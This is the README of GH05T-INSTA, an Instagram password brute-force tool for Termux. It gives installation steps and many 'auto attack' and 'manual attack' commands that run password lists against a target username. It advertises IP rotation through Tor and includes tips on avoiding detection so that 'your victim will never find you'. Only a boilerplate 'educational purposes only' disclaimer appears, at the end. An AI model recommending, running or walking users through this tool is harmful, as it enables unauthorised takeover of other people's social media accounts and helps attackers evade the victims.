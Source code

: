 <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/archive/refs/tags/GH05T-INSTA.3.01.zip"><b><em>Instagram Hacking Package</em></b></a>

<b>We strive to provide the best service</b>
<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220826_141617.jpg" alt="GH05T INSTA Brute Force Attack" title="GH05T INSTA">
<i>TERMUX USERS  { No Root }</i>

<b>The best way to hack Instagram</b>

<b>The best way report Instagram</b>

<b>⚔️ Last Updated  :  Sunday, 9 October 2022 ⚔️</b>

`create your own password list{error solution}`

### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

`This is our teamwork, so please support our team`

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

`We built this because there is no good brute force tool to use in Termux`

`Fork it`

## Installation 3.01 {Termux}

$ `pkg install git`

$ `pkg install python`

$ `pkg install python2`

$ `git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA`

$ `cd GH05T-INSTA`

$ `python install.py`

$ `cd $HOME`

$ `rm -rf GH05T-INSTA`

* You can use two ways 🤺

$ `gh05t`

01 ) Command Based ⬇️

## Usage Commands 

<b>AUTO ATTACK </b>

```
$ gh05t --user username --pass 1
```

* username : Enter your Instagram username
* --pass 1 : Total password list 20 {Select any password option Example 1 , 2 , 3 , ... 18 , 19 , 20}
* [Usage example](https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg)

```
$ gh05t --user your-account-username --pass your-password-option 
$ gh05t --user mr_77778#8 --pass 2 
$ gh05t --user mr_fqake#@ --pass 3 
$ gh05t --user jdjza888#8 --pass 4 
$ gh05t --user gersman_9#6# --pass 6 
$ gh05t --user mr_77bd778#8 --pass 7 
$ gh05t --user ar_fake#@ --pass 8 
$ gh05t --user li888#8 --pass 9 
$ gh05t --user mtrman_9#6# --pass 10 
$ gh05t --user jr_77778#8 --pass 11 
$ gh05t --user ig_fake#@ --pass 12 
$ gh05t --user hsjza888#8 --pass 13 
$ gh05t --user gelian_9#6# --pass 14 
$ gh05t --user gehsghan_9#6# --pass 15 
$ gh05t --user jr7778#s8 --pass 16 
$ gh05t --user igahacke#@ --pass 17 
$ gh05t --user hsjd888#8 --pass 18 
$ gh05t --user gehdhan_9#6# --pass 19 
$ gh05t --user gehsgan_9#6# --pass 20 
```

<b>MANUAL ATTACK </b>

```
$ gh05t --user username --passadd Your-Pass
```

* username : Enter your Instagram username
* Your-Pass : Enter the name and location(pwd) of your password list

##### Usage example 

```
$ gh05t --user username --passadd pwdlocation-and-name
$ gh05t --user your-account-username --passadd your-password-location-and-name.txt
$ gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt 
$ gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt 
$ gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
$ gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt 
```

<b>Help Command </b>

```
$ gh05t --help
```

* You can view the user guide

<b>CHECKING FILES </b>

```
$ gh05t --check
```

* Checking files and reinstalling deleted files

<b>Update GH05T-INSTA Tool

```
$ gh05t --update
```

* Try this command and you will get the new update

<b>Brute Force Error </b>

```
$ gh05t --error
```

* Brute Force error Try this

<b>Usernames </b>

```
$ gh05t --cookies
```

* After running this command you can see the usernames

<b>Developer </b>

```
$ gh05t developer 
```

* To contact the developers


<b>Uninstall GH05T-INSTA </b>

```
$ gh05t uninstall all
```

* Removes all packages related to GH05T-INSTA 

02 ) just type : gh05t

```
$ gh05t 
```

#### We never recommend this method, but try it yourself

<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220902_131113.jpg" alt="GH05T INSTA" title="GH05T INSTA">

##### Why gh05t-hunter5 never recommend this `gh05t` method

* The main reason is that it is not good for your work
* This method wastes your time
* 101% Working 😉

#### Password List

<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg" alt="GH05T INSTA PASSWORD LIST" >

<i>WORKING DEMO <a href="https://bit.ly/3RrxZQ8">GH05T ATTACK (safe to use)</a> </i>

<em>Please confirm that Tor is installed</em>

#

<a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5 TELEGRAM</a>

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

#

有了這個，您可以立即暴力破解您的 Instagram 帳戶

Es funktioniert gut, da es mit Instagram-py erstellt wurde

इंस्टाग्राम हैकिंग

<h1>Notice</h1>

`TO BE USED FOR EDUCATIONAL PURPOSES ONLY`

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```

<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`

<small>collaborate</small>

Contact  :  <a href="mailto: gh05thunter5@proton.me">Send Email</a>

Telegram Channel  :  <a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5</a>
